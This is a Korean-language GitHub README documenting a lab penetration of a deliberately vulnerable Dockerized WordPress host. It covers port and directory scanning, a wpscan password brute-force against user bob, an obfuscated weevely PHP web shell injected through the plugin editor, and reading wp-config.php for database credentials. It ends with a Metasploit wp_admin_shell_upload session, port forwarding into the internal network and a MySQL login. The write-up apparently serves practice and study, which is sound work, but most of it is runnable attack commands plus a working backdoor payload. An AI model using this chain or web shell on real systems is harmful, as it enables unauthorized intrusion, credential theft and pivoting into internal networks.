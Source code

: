 
## Docker_WP_Hacking
도커 환경으로 구성한 워드프레스를 도커 취약점과 워드프레스 취약점을 이용해 해킹해보기.

## 사전준비
- 취약한 도커 이미지를 가상화 툴에 올려 준비해준다. : 192.168.146.129
- Kali Linux : 192.168.146.128
- WireShark
- Burpsuite (Decoder용도)

## 정보수집
- nmap을 통한 포트 스캔
```
sudo nmap -sV 192.168.146.129 -p-
sudo nmap -sV -sC 192.168.146.129 -p-
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/0a64950c-3f19-472f-8145-93b562db515d)
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/11b8c2fe-2e10-4cc5-81fc-26bbdedfbe16)
- /wp-admin/ 경로 정보 획득
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/c2041775-4ecb-4186-9f02-771b675487ba)
- 8000 포트, 22번 포트 확인
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/31d1c0dd-a66d-45b1-9984-02de893825bd)

- Nikto를 통한 정보 수집
```
sudo nikto -h http://192.168.146.129:8000/
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/3cf75a46-568c-4f8c-8a2c-03bb9e1f6862)

- dirb를 통한 정보 수집
```
sudo dirb http://192.168.146.129:8000/
```
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/170e296e-7298-4bb8-9ec1-25f0e5df1b61)

- wpscan을 통한 정보(워드프레스 플러그인 취약점) 수집
```
wpscan --url http://192.168.146.129:8000/ --enumerate p
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/7979d634-5639-49df-8567-7f1fa200fac6)
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/71539c00-8342-4b39-9c93-4b868c99b1f9)
- 메시지를 읽어보니 POST 메소드는 허용하는 것으로보아 무차별 대입공격을 허용하는 것 같다.

## brute-force 공격

-wpscan을 이용해 wordpress 계정 정보 얻기

```
wpscan --url http://192.168.146.129:8000/ --enumerate u
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/b61fb484-9230-47ca-a415-76c5c4c09b5e)

- wpscan의 무차별 대입 공격 기능 사용
- github SecList의 password 모음을 사용.

```
sudo git clone https://github.com/danielmiessler/SecLists.git
sudo wpscan --url http://192.168.146.129:8000/ --passwords ~/SecLists/Passwords/Common-Credential/10-million-password-list-top-10000.txt --usernames bob
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/80b80b6e-0292-4a3d-9b38-67e3c97675a0)
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/210c83da-95ac-42e7-b7d8-c04bbb289f9c)

## 웹쉘 생성
- weevly를 사용하여 웹쉘 생성
```
sudo weevely generate hacker shell.php
cat shell.php
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/466ade39-1490-4a56-b3d7-ad1a12b9d5aa)

## 웹쉘 코드 업로드
- [wordpress admin site] -> [login(bob/Welcome1)] -> [plugins] -> [Editor]

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/1db97540-a895-4d8f-915c-5c291598a904)

```
?>
<?php
$B=str_replace('WQ','','cWQreatWQWQe_fWQuncWQtWQion');
$Z='$ku2="du26a6bc0d";$u2khu2="b10694a2du290e";$kf="u23a6964u28u2f3a03";$p=u2"g7e6u2hLIPrmHu2v7eIu2ju2";fun';
$l='u2val(@gzuncomu2pru2ess(@x(u2@base6u24_decode($m[1])u2,$k)))u2;$ou2=@ou2b_get_cou2ntentu2s();@obu2';
$A='u2"/$kh(.u2+)u2$kf/",@file_u2get_cu2ou2ntents(u2"php://inpu2uu2t"),u2$m)==1)u2 {@ob_u2su2tart();@e';
$h='2u2u2($j<$c&&$u2i<$l);$j++,u2$i++u2){u2$o.=$t{$iu2}^u2$k{$j}u2;}}returnu2 u2$o;}if (@preg_mau2tch(';
$d='_endu2u2_cleanu2();$r=u2@bu2ase64_encode(@u2x(@gu2zcompress($u2u2o),$k))u2;pu2rint("$p$kh$r$kf");}';
$G='cu2tion x($t,$k){$u2c=stru2len($ku2);$lu2u2=strlen($tu2)u2;$o="";for(u2$i=u20;$i<$l;){fu2or($j=0;u';
$k=str_replace('u2','',$Z.$G.$h.$A.$l.$d);
$C=$B('',$k);$C();
?>
<?php

```

- [Update File]


 
## 웹쉘 연결 후 내부 정보 수집

- 대부분 wordpress에서 플러그인 업로드를 하면 /wp-content/plugins/[펄러그인].php
```
http://192.168.146.129:8000/wp-content/plugins/hello.php hacker
```

- nmap 바이너리 파일을 weevely의 file_upload 모듈을 사용하여 침투한 시스템에 업로드.
- https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap 다운로드 하여 kali에 옮기기
- tmp 파일에 nmap 바이너리를 넣는 이유는 침투했을 때 권한이 www-data 이기 때문에 권한이 있는 임시 디렉토리인 tmp에 업로드 한 것이다.
```
file_upload /home/kali/Downloads/nmap /tmp/nmap
ls
chmod +x nmap
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/fa80b0c0-2ce3-47dd-a159-5b42f6929c3e)

- 내부 프라이빗 ip 확인후 내부 인터넷 망 스캔

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/67d1f594-b753-472f-8d7a-26275ef88c6e)

```
ip addr
./nmap 172.18.0.0/24
```

- nmap 결과로 보아 현재위치는 웹서비스를 제공하는 서버이다.
- 172.18.0.2 는 Database mysql 서버이다.
- 172.18.0.4 는 ssh로 내부로 접속을 하기 위한 bastion 서버로 추측 할 수있으며, 8022의 목적을 알 수 없는 포트가 열려있다.
- 일반적으로 8022 포트는 표준 SSH(Secure Shell) 포트인 22의 대안으로 사용될 수 있다.

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/c59d3ba2-7fae-48c9-b422-aea6ca8decfb)

- db 서버가 있는 것을 확인했으니 db서버 정보를 획득 해야한다.
- wordpress 에서는 wp-config.php에 db 계정 정보가 담겨있다.

```
cd /var/www/html
ls
cat wp-config.php
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/7d441bb0-b738-4597-b4cd-871aa6b8ae55)
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/2738974d-576d-45e2-9b2b-695a5801cc91)

- 브라우저로 접속했을 때 docker환경인 것을 힌트로 얻을 수 있었지만 확실하게 한번더 확인한다.
- docker 환경에 init 프로세스는 대부분 docker 이므로
- /proc/1/cgroup 내용을 확인하여 docker 환경임을 확신한다.

```
cat /proc/1/cgroup
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/8657076e-2fd2-42c7-b492-805a7873818c)



## 8022 포트 공격
- Kali에서 다른 터미널을 연다.

```
sudo msfconsole
search wp_admin
use exploit/unix/webapp/wp_admin_shell_upload
show options
set RHOSTS 192.168.146.129
set RPORT 8000
set USERNAME bob
set PASSWORD Welcome1
exploit
```
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/12a8d10e-1035-4971-b134-92d1c9f11c37)

- 내부에 침투하여 nmap으로 내부망 서버 구성을 확인하였다.
- 미터프리터 즉 웹서비스안에 msfconsole로 침투 성공도 하였다.
- 미터프리터의 기능인 포트포워딩 기능을 이용하여 해커의 8022 포트를 연다
- 해커는 자신의 브라우저에 localhost:8022로 접속을하면 침투한 내부망의 bastion 서버인 172.18.0.4:8022로 포워딩 해준다.

```
portfwd add -l 8022 -p 8022 -r 172.18.0.4
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/2c786847-330a-4c68-8ad7-42552c70097e)
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/02d167a5-9741-47c3-87e6-9fd59ec6b476)

- 분명 172.18.0.4:8022로 포트포워딩을 했는데 172.18.0.2로 접속되었다.
- 즉 172.18.0.4:8022는 내부 db서버인 172.18.0.2로 접속하는 포트였던 것이다.
- 획득한 db정보를 통해 접속해보자.

```
mysql -u wordpress -p
Enter password : WordPressISBest
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/d3f8d1d3-f2fc-4085-977b-e39f98be548f)
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/12eb1c7b-d758-4ed7-af81-a858a0defd48)

